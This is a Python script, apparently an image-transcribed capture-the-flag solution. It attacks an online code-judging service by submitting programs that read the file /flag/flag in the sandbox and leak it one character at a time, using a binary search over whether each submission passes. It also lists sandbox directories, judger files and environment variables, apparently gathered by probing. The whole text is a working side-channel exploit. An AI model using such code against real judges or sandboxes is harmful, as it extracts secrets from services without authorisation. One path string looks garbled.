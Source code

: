 ```python


token = getToken()


def judge(chall: str, src: str, language: str = 'C'):
    data = {
        'src': src,
        'language': language,
        'action': chall,
        'token': token,
    }
    result = requests.post(judge_url, json=data).json()
    return 'SUCCESS' in result['data']


l = ['etc', 'usr', 'sbin', 'lib64', 'home', 'dev', 'boot', 'root', 'sys', 'proc', 'opt', 'mnt', 'var', 'srv', 'lib',
     'run', 'media', 'bin', 'tmp', 'test_case', 'flag', 'log', 'judger', '.dockerenv', 'code']
k = ['unbuffer.so', '__init__.py', 'compiler.py', 'unbuffer.c', '.python-version', 'utils.py', 'entry']
p = ['compile.log', 'gunicorn.log', 'judge_server.log', 'judger.log']
o = 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PYTHONIOENCODING=UTF-8 LANG=en_US.UTF-8 LANGUAGE=en_US:en LC_ALL=en_US.UTF-8'
u = '/usr/bin/python3 /judger/run/165\SVAbYV734P3=\A14VQ6]P7CH47MW/__pycache__/solution.cpython-36.pyc'
flag = """'"""

for i in range(len(flag) - 1, 500):
    min = 32
    max = 128
    while 1:
        j = min + (max - min) // 2
        if min == j:
            flag += chr(j)
            print(flag)
            break
        res = judge('test', f"""import os
a,b = map(int,input().split(' '))
r=open("/flag/flag").read()
if ord(r[{i}])<{j}:
    print(a+b)
else:
    print(a+b+1)
""", 'PYTHON')
        if res:
            max = j
        else:
            min = j
```
